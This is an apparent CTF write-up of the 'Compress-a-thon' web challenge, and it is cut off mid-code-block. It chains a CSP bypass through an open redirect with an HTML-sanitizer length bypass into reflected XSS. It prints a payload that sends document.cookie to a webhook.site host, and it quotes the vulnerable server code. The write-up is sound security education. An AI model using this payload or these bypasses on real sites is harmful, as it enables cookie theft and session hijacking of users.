Compress-a-thon is a “web exploitation” challenge that was featured in Pentathon 2025 Finale Jeopardy CTF Round. This challenge involved chaining Content Security Policy (CSP) Bypass and HTML sanitization that led to Reflected XSS which is then used to exfiltrate user cookies.





## Black-Box Review

To begin our testing, it is always a good idea to look at the application as a “user” and go over its functionalities while having the brain of a “tester” to notice the details behind its functionalities as we go along-the-way.



We observe a `textarea` in which we can provide `html-input` and it is supposed to “compress” it. We also observe credits to `kangax/html-minifier` and make a guess for it being the library that is providing this “compression or minification” functionality, and then there is an `Output` area in which our `minified html` is supposed to be shown.

There are two buttons, `Submit` and `Share` , `Submit` button probably triggers the compression and we are not so sure about `Share` button’s exact functionality but we can make a guess that it is supposed to “share our html” with someone else or something like that.



Okay so we see two more `routes` for this web application.

*   `/render` route which is where our `html-input` goes for “compression/minification”.
*   `/redirect` route and looking at its `parameter "url="` we can make be sure that it is supposed provide `server-side redirect` functionality from this application to another `url`.

Let’s also take a look at `/js/main.js` file which contains `Client-side javascript` code.



```js
window.minify = require("html-minifier").minify;

(function() {
    // <-- SNIP -->
  })();
```

So it is making use of `html-minifier` library as expected and everything else is inside an [**IIFE**](https://developer.mozilla.org/en-US/docs/Glossary/IIFE) (Immediately Invoked Function Expression) which simply means that function will execute as soon as it is defined in the code.

```js
function minifyHTML(htmlstring) {
  return window.minify(htmlstring, {
    collapseWhitespace: true,
    minifyCSS: true,
    minifyJS: true,
    keepClosingSlash: true,
    processConditionalComments: true,
  });
}

function getHtmlInput() {
  return document.querySelector('textarea[name="html"]').value;
}

function setOutput(styledHtml) {
  document.querySelector(".output").innerHTML = styledHtml;
}
```

*   `minifyHTML()` function takes our input `htmlstring` and uses method from `html-minifer` to `minify` our `html-code` with some specific `settings` being passed into it.
*   `getHtmlInput()` and `setOutput` simply `gets` our `html-input` from the mentioned `textarea` and `setOutput` `sets` or shows the result to us by setting `.output` area to provided `styledHtml` input, interesting part is that it does so by setting `.innerHTML` to `styledHtml` input and now if `styledHtml` input is not sanitized properly then this will lead to `XSS` vulnerability.

```js
function styleHtml() {
  var html = getHtmlInput();
  let initialLength = html.length;
  var styledHtml = minifyHTML(html);
  let formattedLength = styledHtml.length;
  document.getElementById("initialLength").value = initialLength;
  document.getElementById("formattedLength").value = formattedLength;
  return styledHtml;
}

function handleSubmit(event) {
  event.preventDefault();
  var styledHtml = styleHtml();
  document.querySelector('textarea[name="html"]').value = styledHtml;
  event.target.submit();
}

function initializeEventListeners() {
  document.querySelector("form").addEventListener("submit", handleSubmit);
  document.querySelector(".share-btn").addEventListener("click", (event) => {
    event.preventDefault();
    shareContent();
  });
}
```

*   `styleHtml()` function combines the use of previously defined functions and `minifies` our `html-input` and returns it.
*   `initializeEventListeners()` function sets up `handlers` for `Submit` button and `Share` button.
*   `handleSubmit()` is `a handler function` for `Submit` button that was mentioned previously. Interesting thing to note is that after `minifying` our `html-input`, this function immediately changes our `textarea` that is our old `html-input` contents back to `minified-html` contents.
*   So it won’t be wrong to assume that `/render` endpoint is doing something more to our `html-input` before showing the result in the `output`.

```js
function init() {
  initializeEventListeners();
}

function shareContent() {
  const form = document.querySelector("form");
  const htmlContent = form.querySelector('textarea[name="html"]').value;

  const body = new URLSearchParams({
    html: htmlContent,
  }).toString();

  fetch("/share", {
    method: "POST",
    headers: {
      "Content-Type": "application/x-www-form-urlencoded",
    },
    body: body,
  })
    .then((response) => response.json())
    .then((data) => {
      alert("Content shared successfully!");
    })
    .catch((error) => {
      console.error("Error sharing content:", error);
    });
}

init();
```

*   `shareContent()` function is the `handler function` for `Share` button as mentioned previously. It sends the contents of `textarea` that is our `html-input` to `/share` endpoint.
*   `init()` function simply initializes the `event-listeners` as defined.

Let’s interact with the application and observe its behavior —



```js
<script>alert(window.document);</script>
```



And we can observe that our `html-input` is being `sanitized` before appending it to `.innerHTML` of the `.output` `div` element and thus preventing `XSS`. We also see some interesting parameters such as `initialLength` and `formattedLength` here, we will keep them in mind.



There is one more problem, looking at the `response` `headers`, we see that a `CSP` is in place and thus will be problematic to realize XSS.

Summing what we’ve discovered so far and thus what to work on —

*   Our `html-input` is being minified using `html-minifier` and then being replaced in the same `textarea` on the `client-side`.
*   Our `html-input` is also being sanitized and then being put on `.output` div element using `.innerHtml` property on the `server-side`.
*   `Submit` button triggers our `html-input` to be minified and then submit to `/render` endpoint and we are not so sure about `Share` button but it sends our `html-input` to `/share` endpoint.
*   We have a `CSP` and a `HTML` sanitzation to bypass in-order to realize `XSS`.

## Source-Code Review

Here are our project files —



We’ve already explored `main.js`, leaving us with `index.js` and `bot.js` to understand functionality of each `endpoint` along with `index.ejs` to take a look at where our `output` is landing up on as it gets `rendered`.

Let’s first go through `index.js` and `bot.js` only covering their   
relevant portions —

```js
app.use((req, res, next) => {
  res.set(
    "Content-Security-Policy",
    "default-src 'self'; script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com/ajax/libs/html-minifier/4.0.0/htmlminifier.min.js ; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com ; object-src 'none';font-src 'self' https://fonts.googleapis.com https://fonts.gstatic.com;"
  );
  next();
});
```

So this part of the code-base describes `CSP` that is being used as also seen previously in the `headers`.



So, if we can find a way to `load` old `angular` libraries which is a common CSP bypass technique to achieve XSS , in such a way that requests goes through the application on `server-side` and hence `loading` it as `self ` or something along those lines was our initial thought and what we found during our research was this — [**_aszx87410.github.io/csp-bypass-via-redirection_**](https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/#bypass-via-redirection). So, it turns out there is a very peculiar behavior of _CSP’s Matching Algorithm_ that makes the above possible.





So we can bypass `CSP` via `redirection` because we got ourselves `redirect?url=` endpoint that has `Open-Redirect Vulnerability`. Also taking a look at [Attack 6 — CSP Bypass Techniques & Payloads](https://the-dark-lord.medium.com/csp-lab-writeup-tryhackme-819b27b30119) combining with `/redirect?url=` we can create our payload, adjusting a few things here and there.

```js
<script src="/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script><script src="/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script><div ng-app ng-csp>{{$on.curry.call().eval("window.location='https://webhook.site/70646e5e-8e28-4781-a610?c='+document.cookie")}}</div>
```

Now to check whether this works or not, we need to take a look at `html sanitization` function because we need to bypass `sanitization`.

```js
function escapeHTML(html, length) {
  let escapedHTML = "";
  const maxLength = Math.min(length, html.length);
  for (let i = 0; i < maxLength; i++) {
    if (html[i] === "&") {
      escapedHTML += "&amp;";
    } else if (html[i] === "<") {
      escapedHTML += "&lt;";
    } else if (html[i] === ">") {
      escapedHTML += "&gt;";
    } else if (html[i] === '"') {
      escapedHTML += "&quot;";
    } else if (html[i] === "'") {
      escapedHTML += "&#039;";
    } else {
      escapedHTML += html[i];
    }
  }

  if (length < html.length) {
    escapedHTML += html.slice(length);
  }
  return escapedHTML;
}
```

Our focus should be on the following line —

```js
if (length < html.length) {
    escapedHTML += html.slice(length);
  }
```

So, if we can create a difference between `length` and `html.length` then we can append a portion of our `html-input` with no `sanitization` and thus bypassing `HTML Sanitization`.

Let’s start experimenting with something simple, let’s say we want to make the following payload go un-sanitized —

```js
<script>alert(1337);</script>
```


We’ve added a few debugging lines to see how application behaves internally.



Okay so what exactly are we expecting to happen? We want “difference” in these lengths. Okay so what will cause it to happen? Let’s trace back the flow of our inputs in the `source code`.

```js
app.post("/render", (req, res) => {
  const html = req.body.html;
  const initialLength = parseInt(req.body.initialLength, 10);
  const formattedLength = parseInt(req.body.formattedLength, 10);
  const escapedHtml = escapeHTML(html, formattedLength);

  res.render("index", {
    title: "HTML Styler",
    message: "Hello, World!",
    escapedHtml: escapedHtml,
    initialLength: initialLength,
    formattedLength: formattedLength,
  });
});
```

The above is the code for `/render` endpoint and we see where our values are coming from. Okay, so only `formattedLength` is being used inside `escapeHtml()`function and `formattedLength = length` and this is after it has been `minified` on the `client-side` as explained earlier during analysis of `main.js`.

So, we can conclude that to make a “difference” between `length` `html.length` which also satisfies the condition of `length < html.length` and through our experimentation with `html-minifier` library, we figured this one out.

So, `html-minifier` remove `newlines` by default —



But we can preserve these `newlines` by putting them inside `comments` because `html-minifier` preserves `HTML Comments` by default.





Let’s replicate the following with our target application —




Now, let’s try adding `HTML Comments` and padding it using `newlines` within `HTML Comments` —







And I’ve added a `console.log()` for `html.slice(length)` and we can see that working out well. The `t>` part, the ending part of our `html-input` went un-sanitized and we can also see that in the `response` tab above.

Therefore, we’ve also bypassed `sanitizeHtml()` function and all we now need to do is `pad` `HTML Comment` in our `html-input` with `newlines` just enough for our `actual XSS injection` to pass un-sanitized.

## A Few Closures

Before moving to exploitation, let’s take a look at `bot.js` to wrap it up.

```js
app.post("/share", (req, res) => {
  const html = req.body.html;
  console.log("got code ->", html);
  visit(html);
  return res.json({ works: "loll" });
});
```

Here, our `Share` button will ask a `bot` to submit a `form` with our `html-input` and given that this `bot` has `Cookies` that we have to exfiltrate using `XSS`.

```js
try {
    await page.goto(url, { timeout: 1000 });
    await sleep(1 * 1000);
    await page.waitForSelector("#htmlcode");
    await page.type("#htmlcode", code);
    await page.waitForSelector("#compress");
    await page.click("#compress");
    await sleep(10 * 1000);
  } catch (e) {
    console.log(e);
  }
```

And just for closure that `Open-Redirect Vulnerability` exists —

```js
app.get("/redirect", (req, res) => {
  const { url } = req.query;
  if (url) {
    res.redirect(url);
  } else {
    res.status(400).send("No URL provided for redirection.");
  }
});
```

There are no `checks` in place for `domains` that one can put in `url` `request query` `param` and so it is vulnerable to `Open-Redirect`.

And another closure for `Reflected XSS` to exist in `index.ejs` —

```js
<div class="output"><%- escapedHtml || '' %></div>
```

As discussed in [github.com/ejs/unescaped-output](https://github.com/mde/ejs/blob/main/docs/syntax.md#--unescaped-output) —

```js
app.post("/render", (req, res) => {
